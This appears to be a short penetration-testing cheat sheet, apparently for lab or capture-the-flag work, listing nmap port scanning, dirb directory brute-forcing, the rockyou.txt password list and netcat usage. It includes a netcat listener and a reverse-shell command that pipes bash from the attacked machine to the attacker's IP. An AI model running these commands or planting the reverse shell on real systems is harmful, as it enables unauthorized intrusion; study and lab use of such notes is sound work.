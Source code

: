 * nmap
    - sudo nmap -v -sS -p 1-10000 $TARGET : Scan every TCP port with service discovery
* dirb : directory bruteforce
    - dirb http://webpage.com : The webpage to bruteforce
* rockyou.txt : A large password collection
* nc
    - nc -lp 1337 : Listen to port 1337
    - nc -c bash 10.10.14.188 1337 : If you can execute this on the attacked machine, you will get a reverse shell. (The IP is your machine)